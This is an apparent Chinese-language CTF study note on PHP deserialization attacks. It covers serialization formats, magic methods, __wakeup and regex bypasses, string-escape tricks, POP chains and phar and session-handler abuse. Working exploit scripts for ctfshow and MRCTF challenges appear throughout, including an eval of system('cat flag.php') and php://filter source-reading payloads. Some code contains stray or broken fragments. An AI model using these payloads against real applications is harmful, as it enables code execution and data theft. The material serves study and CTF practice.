




# PHP反序列化

## 简介

什么是序列化？`serialize()`

对象转换成字符串 为什么转换：1.持久保存。2.方便网络传输，例如session缓存，cookie等 

什么是反序列化？`unserialize()`

字符串转换成对象


Tip：对字符串进行序列化后是它本身（ctfshow web260）

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include('flag.php');
if (preg_match('/ctfshow_i_love_36D/', serialize($_GET['ctfshow']))) {
    echo $flag;
}
//因此直接?ctfshow=/ctfshow_i_love_36D/ 即可
```

## 常见的序列化格式

- 二进制格式
- 字节数组
- json字符串
- xml字符串

## 案例

### 数组序列化

```php
<?php
$a = array('hello', 'hi');
$a_ser = serialize($a);
echo $a_ser;
?>
```

结果：

```
a:2:{i:0;s:5:"hello";i:1;s:2:"hi";}
```

```
2：表示a有两个元素
i：表示index；0：表示下标0
s：表示string字符串数组；5：长度为5
```

解析

```
a - array
b - boolean
d - double
i - integer
o - common object 
r - reference
s - string
C - custom object
O - class
N - null
R - pointer reference
U - unicode string
```


### 对象序列化

```php
<?php
class Student
{
    public $name;
    public $age;
    function __construct()
    {
        $this->name = 'abab';
        $this->age = 18;
    }
    function pr()
    {
        return $this->name;
        return $this->age;
    }
}
$stu = new Student();
$stu_ser = serialize($stu);
echo $stu_ser
?>
```

结果

```
O:7:"Student":2:{s:4:"name";s:4:"abab";s:3:"age";i:18;}
```

**注：序列化后的内容只有成员变量，没有成员函数**

还有一种成员变量就是protected类型

```php
<?php
class test
{
    public $aa;
    private $bb;
    protected $cc;
    function __construct()
    {
        $this->aa = 'aaa';
        $this->bb = 'bbb';
        $this->cc = 'ccc';
    }
}
$d = new test();
$d_ser = serialize($d);
echo $d_ser;
?>
```

如果是private类型，会在变量名前加上`\x00类名\x00`，如果是protected类型，则会加上`\x00*\x00`， 这些都是不可见字符

输出则会导致不可见字符 `\x00` 的丢失

结果：（不正常）

```
O:4:"test":3:{s:2:"aa";s:3:"aaa";s:8:"testbb";s:3:"bbb";s:5:"*cc";s:3:"ccc";}
```

**如果需要本地存储推荐“urlencode”**

```
urlencode($d_ser);
```


## 反序列化中常见的魔术方法

```
__wakeup()      //执行unserialize()时，先会调用这个函数
__sleep()       //执行serialize()时，先会调用这个函数
__destruct()    //析构函数，对象被销毁时触发
__construct()   //构造函数，当创建对象时自动调用。
__call()        //在对象上下文中调用不可访问的方法时触发
__callStatic()  //在静态上下文中调用不可访问的方法时触发
__get()         //用于从不可访问的属性读取数据或者不存在这个键都会调用此方法
__set()         //用于将数据写入不可访问的属性
__isset()       //在不可访问的属性上调用isset()或empty()触发
__unset()       //在不可访问的属性上使用unset()时触发
__toString()    //把类当作字符串使用时触发
__invoke()      //当尝试将对象调用为函数时触发
```


## 反序列化绕过小Trick

### php7.1+反序列化对类属性不敏感

我们前面说了如果变量前是protected，序列化结果会在变量名前加上`\x00*\x00`

但在特定版本7.1以上则对于类属性不敏感，比如下面的例子即使没有`\x00*\x00`也依然会输出	`abc`

```php
<?php
class test
{
    protected $a;
    public function __construct()
    {
        $this->a = 'abc';
    }
    public function __destruct()
    {
        echo $this->a;
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');
```


### 绕过__wakeup

> **版本：**
> • PHP5 < 5.6.25
> • PHP7 < 7.0.10

**利用方式：**序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行

例如：

```php
<?php
class test
{
    public $a;
    public function __construct()
    {
        $this->a = 'abc';
    }
    public function __wakeup()
    {
        $this->a = '666';
    }
    public function __destruct()
    {
        echo $this->a;
    }
}
```

```
如果执行unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');输出结果为666

而把对象属性个数的值增大：
执行unserialize('O:4:"test":2:{s:1:"a";s:3:"abc";}');输出结果为abc
```


### 绕过部分正则

**正则表达式：**描述了一种字符串匹配的模式（pattern），可以用来检查一个串是否含有某种子串、将匹配的子串替换或者从某个串中取出符合某个条件的子串等。

```
preg_match('/^O:\d+/')
//匹配序列化字符串是否是对象字符串开头
```

利用加号绕过（在url传参时注意+编码为`%2B`）

 `serialize(array(a))` a为要反序列化的对象(序列化结果开头是a，不影响作为数组元素的$a的析构)

```php
<?php
class test
{
    public $a;
    public function __construct()
    {
        $this->a = 'abc';
    }
    public function __destruct()
    {
        echo $this->a . PHP_EOL;
    }
}

function match($data){
    if (preg_match('/^O:\d+/',$data)){
        die('you lose!');
    }else{
        return $data;
    }
}

$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}';
// +号绕过
$b = str_replace('O:4', 'O:+4', $a);
unserialize(match($b));
serialize(array($a));
unserialize('a:1:{i:0;O:4:"test":1:{s:1:"a";s:3:"abc";}}');

?>
```

对应 **ctfshow web258**

编写脚本：

```php
<?php
class ctfShowUser
{
    public $username = 'xxxxxx';
    public $password = 'xxxxxx';
    public $isVip = false;
    public $class = 'backDoor';
    public function __construct()
    {
        $this->class = new backDoor();
    }
    public function __destruct()
    {
        $this->class->getInfo();
    }
}
class backDoor
{
    public $code = 'system("cat flag.php");';
    public function getInfo()
    {
        eval($this->code);
    }
}
$a = new ctfShowUser();
$a = serialize($a);
$a = str_replace('O:', 'O:+', $a); //绕过preg_match
echo urlencode($a);
?>
//主要是调用backDoor执行eval命令函数获取flag
```


### 利用引用

```php
<?php
class test
{
    public $a;
    public $b;
    public function __construct()
    {
        $this->a = 'abc';
        $this->b = &$this->a;
    }
    public function __destruct()
    {
        if ($this->a === $this->b) {
            echo 666;
        }
    }
}
$a = serialize(new test());

```

上面这个例子将 `$b` 设置为 `$a` 的引用，可以使 `$a` 永远与 `$b` 相等

对应于**ctfshow 265**

脚本代码：

```php
<?php
class ctfshowAdmin
{
    public $token;
    public $password;
    public function __construct($t, $p)
    {
        $this->token = $t;
        $this->password = &$this->token;
    }
    public function login()
    {
        return $this->token === $this->password;
    }
}

$a = serialize(new ctfshowAdmin('123', '123'));
echo urlencode($a);

```


### 16进制绕过字符的过滤

```
O:4:"test":2:{s:4:"%00*%00a";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
可以写成
O:4:"test":2:{S:4:"\00*\00\61";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
表示字符类型的s大写时，会被当成16进制解析。
61(16进制)->97(十进制)->a(ASCII)
```

```php
<?php
class test
{
    public $username;
    public function __construct()
    {
        $this->username = 'admin';
    }
    public function __destruct()
    {
        echo 666;
    }
}
function check($data)
{
    if (stristr($data, 'username') !== False) {
        echo ("你绕不过！！" . PHP_EOL);
    } else {
        return $data;
    }
}
// 未作处理前
$a = 'O:4:"test":1:{s:8:"username";s:5:"admin";}';
$a = check($a);
unserialize($a);
// 做处理后 \75是u的16进制
$a = 'O:4:"test":1:{S:8:"\\75sername";s:5:"admin";}';
$a = check($a);
unserialize($a);
?>
```


### PHP反序列化字符逃逸

#### **1. 过滤后字符变多（反序列化后的一个x替换成为两个）**

```php
<?php
function change($str)
{
    return str_replace("x", "xx", $str);
}

$name = $_GET['name'];
$age = "I am 11";
$arr = array($name, $age);
echo "反序列化字符串：";
var_dump(serialize($arr));
echo "<br/>";
echo "过滤后:";
$old = change(serialize($arr));
$new = unserialize($old);
var_dump($new);
echo "<br/>此时，age=$new[1]";
```

正常输出如下



添加一个x看看：



这个就是将GET传入的name中的 x 改为了 xx

正常传入不含x的name值就会正常显示

例如：?name=mao，此时长度为3

如果我们传入maox，正常情况下他的长度就是4，但是经过change函数的替换，变成了abcxx，导致溢出（长度大于4），进而影响下面的反序列化

我们可以利用这一点来实现字符串逃逸

**构造：**

```
?name=abcxxxxxxxxxxxxxxxxxxxx";i:1;s:6:"whoami";}
```

输出如下：

**解释：**

当我们构造name时，在abc后写18个x，而且后面 `";i:1;s:4:"flag";}` 也是18的长度

在进行change时，这里的18个x就变成了36个x，刚好符合序列化时的长度

从而造成`";i:1;s:4:"flag";}`溢出，前面的`"`闭合前串，后面的`;}`闭合反序列化的全过程

而先前存在的$age被舍弃（因为这里数组只有两个元素），不影响反序列化的过程

**总之，age变量被我们控制**


#### 2. 过滤后字符变少(把反序列化后的两个x替换成为一个)

```php
<?php
function change($str)
{
    return str_replace("xx", "x", $str);
}

$arr['name'] = $_GET['name'];
$arr['age'] = $_GET['age'];
echo "反序列化字符串：";
var_dump(serialize($arr));
echo "<br/>";
echo "过滤后:";
$old = change(serialize($arr));
var_dump($old);
echo "<br/>";
$new = unserialize($old);
var_dump($new);
echo "<br/>此时，age=";
echo $new['age'];
```

正常情况传入`name=mao&age=11`的结果：



构造：

```
?name=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx&age=11";s:3:"age";s:6:"whoami";}
```

这里的40个x经过滤后就变为了20个x，但是在前面的长度还是40，所以后面的20个字符被“吃掉”

```
s:3:"age";s:28:"11";s:3:"age";s:6:"woaini";}"
```

注意 `";s:3:"age";s:28`: 这一部分本来就有，后面的 `;s:3:"age";s:6:"whoami";}` 为我们所构造的

**age被我们控制**

**ctfshow web262**

脚本：

```php
<?php
class message
{
    public $from;
    public $msg;
    public $to;
    public $token = 'user';
    public function __construct($f, $m, $t)
    {
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}
function filter($msg)
{
    return str_replace('fuck', 'loveU', $msg);
}
$msg = new
message('fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuc
kfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuc
kfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuc
kfuckfuckfuckfuck";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:5:"admin";}','b','c'
);

$msg_1 = serialize($msg);

echo $msg_1;

$msg_2 = filter($msg_1);

echo $msg_2;

//O:7:"message":4:
{s:4:"from";s:310:"loveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUl
oveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUl
oveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUl
oveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUl
oveUloveU";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:5:"admin";}";s:3:"ms
g";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}
?>
```


## 对象注入

当用户的请求在传给反序列化函数 unserialize() 之前没有被正确的过滤时就会产生漏洞。

因为PHP允许对象序列化，攻击者就可以提交特定的序列化的字符串给一个具有该漏洞的 unserialize 函数

最终导致一个在该应用范围内的任意PHP对象注入。

**前提需要满足两个条件**

```
1、unserialize的参数可控。
2、代码里有定义一个含有魔术方法的类，并且该方法里出现一些使用类成员变量作为参数的存在安全问题的函数
```

```php
<?php
class A
{
    public $test = "12345";
    function __destruct()
    {
        echo $this->test;
    }
}
$a = 'O:1:"A":1:{s:4:"test";s:5:"23456";}';
unserialize($a);

```

脚本结束时会调用`__destruct()`函数，同时会覆盖test变量输出 23456


## POP链简单介绍

前面所讲解的序列化攻击更多的是魔术方法中出现一些利用的漏洞，因为自动调用而触发漏洞，但如果关键代码不在魔术方法中，而是在一个类的普通方法中。这时候可以通过寻找相同的函数名将类的属性和敏感函数的属性联系起来


**简单案例MRCTF2020-Ezpop**

```php
Welcome to index.php
<?php
class Modifier
{
    protected $var;
    public function append($value)
    {
        include($value);
    }
    public function __invoke()
    { //当尝试将对象调用为函数时触发
        $this->append($this->var);
    }
}
$a $b
class Show
{
    public $source;
    public $str;
    public function __construct($file = 'index.php')
    {
        $this->source = $file;
        echo 'Welcome to ' . $this->source . "<br>";
    }
    public function __toString()
    { //把类当作字符串使用时触发
        return $this->str->source;
    }
    public function __wakeup()
    {
        if (preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}
class Test
{
    public $p;
    public function __construct()
    {
        $this->p = array();
    }
    public function __get($key)
    { //当调用一个不存在的或者是无法访问的属性的时候被调用
        $function = $this->p;
        return $function();
    }
}
if (isset($_GET['pop'])) {
    @unserialize($_GET['pop']);
} else {
    $a = new Show;
    highlight_file(__FILE__);
}
?>
```

共有3个类，反序列化会调用**wakeup**，存在于Show类wake中的`$this->source`可控，也就是Show中` $source`变量可控

思路：将`$source`构造成一个对象Show，当`$source`为一个对象时。就会执行Show类中的toString 此时将`$str`指向Test类

` $this->str->source`：取str类中的source值，使这个值自动调用get

此时将`$p`构造成`new Modifier`

` return $function()` 表示将function当作函数返回 当类变量直接当作函数调用的时候，就会调用魔术方法`__invoke`

然后将$var构造成读取源码即可

```
$var = 'php://filter/read=convert.base64-encode/recource=flag.php';
```

payload：

```php
<?php
ini_set('memory_limit', '-1');
class Modifier
{
    protected $var = 'php://filter/read=convert.base64-
encode/resource=flag.php';
}
class Show
{
    public $source;
    public $str;
    public function __construct($file)
    {
        $this->source = $file;
        $this->str = new Test();
    }
}
class Test
{
    public $p;
    public function __construct()
    {
        $this->p = new Modifier();
    }
}
$a = new Show('aaa');
$a = new Show($a);
echo urlencode(serialize($a));
?>
```

来自：[https://www.bilibili.com/video/av4142669](https://www.bilibili.com/video/av4142669)


## PHP原生类反序列化利用（暂无）


## Phar反序列化

**ctfshow 276**

phar文件本质上是一种压缩文件，会以序列化的形式存储用户自定义的meta-data。

当受影响的文件操作函数调用phar文件时，会自动反序列化meta-data内的内容。


### 什么是phar文件

在软件中，PHAR（PHP归档）文件是一种打包格式，通过将许多PHP代码文件和其他资源（例如图像，样式表等）捆绑到一个归档文件中来实现应用程序和库的分发

php通过用户定义和内置的“流包装器”实现复杂的文件处理功能。内置包装器可用于文件系统函数，
如(fopen(),copy(),file_exists()和filesize()。 phar://就是一种内置的流包装器。

 php中一些常见的流包装器如下：

```
file:// — 访问本地文件系统，在用文件系统函数时默认就使用该包装器
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```

### phar文件的结构

```
stub:phar文件的标志，必须以 xxx __HALT_COMPILER();?> 结尾，否则无法识别。xxx可以为自定义内容。

manifest:phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是漏洞利用最核心的地方。

content:被压缩文件的内容

signature (可空):签名，放在末尾。
```

下面生成一个phar文件

前提：开启php.ini中的 phar.readonly = off

```php
<?php
class Test{
}

@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new Test();
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

### 漏洞利用条件

1. phar文件要能够上传到服务器端。
2. 要有可用的魔术方法作为“跳板”。
3. 文件操作函数的参数可控，且 : 、 / 、 phar 等特殊字符没有被过滤。

### 受影响的函数：

[https://blog.zsxsoft.com/post/38](https://blog.zsxsoft.com/post/38)


### 绕过方式

当环境限制了phar不能出现在前面的字符里。可以使用 `compress.bzip2://` 和 `compress.zlib://` 等绕过

```
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/resource=phar:///test.phar/test.txt
```

当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。

php://filter/read=convert.base64-encode/resource=phar://phar.phar

GIF格式验证可以通过在文件头部添加GIF89a绕过

1、$phar->setStub(“GIF89a”.""); //设置stub

2、生成一个phar.phar，修改后缀名为phar.g


## php-session反序列化

### session简单介绍

在计算机中，尤其是在网络应用中，称为“会话控制”。Session 对象存储特定用户会话所需的属性及配置信息。这样，当用户在应用程序的 Web 页之间跳转时，存储在 Session 对象中的变量将不会丢失，而是在整个用户会话中一直存在下去。当用户请求来自应用程序的 Web 页时，如果该用户还没有会话，则 Web 服务器将自动创建一个 Session 对象。当会话过期或被放弃后，服务器将终止该会话。

当第一次访问网站时，seesion_start()函数就会创建一个唯一的Session ID，并自动通过HTTP的响应头，将这个Session ID保存到客户端Cookie中。同时，也在服务器端创建一个以Session ID命名的文件，用于保存这个用户的会话信息。当同一个用户再次访问这个网站时，也会自动通过HTTP的请求头将 Cookie中保存的Seesion ID再携带过来，这时Session_start()函数就不会再去分配一个新的Session ID，而是在服务器的硬盘中去寻找和这个Session ID同名的Session文件，将这之前为这个用户保存的会话信息读出，在当前脚本中应用，达到跟踪这个用户的目的。


### session 的存储机制

php中的session中的内容并不是放在内存中的，而是以文件的方式来存储的，存储方式就是由配置项 session.save_handler来进行确定的，默认是以文件的方式存储。

存储的文件是以sess_sessionid来进行命名的

session_start();运行之后开启session并且产生一个唯一的32位的session_id


### session文件创建的几个tip

1. 代码中有session_start(),会自动创建session文件。

2. 如果` session.auto_start=On` ，则PHP在接收请求的时候会自动初始化Session（也就创建了 session文件），不再需要执行session_start()。但默认情况下，这个选项都是关闭的。
3. session还有一个默认选项，session.use_strict_mode默认值为0。此时用户是可以自己定义Session ID的。

```
比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO”。 即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有ini.get("session.upload_progress.prefix")+由我们构造的session.upload_progress.name 值组成，最后被写入session文件里。
```

注意：如果默认配置 session.upload_progress.cleanup = on 导致文件上传后，session文件内容立即清空。这时我们就要利用竞争，在session文件内容清空前进行包含利用。


### php.ini中一些session配置

```
session.save_path=“” --设置session的存储路径
session.save_handler=“”–设定用户自定义存储函数，如果想使用PHP内置会话存储机制之外的可以使用本函数(数据库等方式)
session.auto_start boolen–指定会话模块是否在请求开始时启动一个会话默认为0不启动
session.serialize_handler string–定义用来序列化/反序列化的处理器名字。默认使用php
```


### 利用姿势

session.upload_progress进行文件包含和反序列化渗透

 [https://www.freebuf.com/vuls/202819.ht](https://www.freebuf.com/vuls/202819.ht)


### 使用不同的引擎来处理session文件

**$_SESSION变量直接可控**

php引擎的存储格式是 键名|serialized_string ，而php_serialize引擎的存储格式是 serialized_string 。如果程序使用两个引擎来分别处理的话就会出现问题

```php
<?php
session_start();
$_SESSION['aaa'] = 'bbb';
//aaa|s:3:"bbb";
//该引擎使用的是php，会把'|'看做键名与值的分割符，从而造成了歧义，导致其在解析session文件时直接对'|'后的值进行反序列化处理。
```

```php
<?php
ini_set('session.serialize_handler','php_serialize');
session_start();
$_SESSION['aaa'] = 'bbb';
//a:1:{s:3:"aaa";s:3:"bbb";}
//php_serialize引擎只会把'|'当做一个正常的字符
```

**ctfshow web263**


python反序列化

ctfshow277，278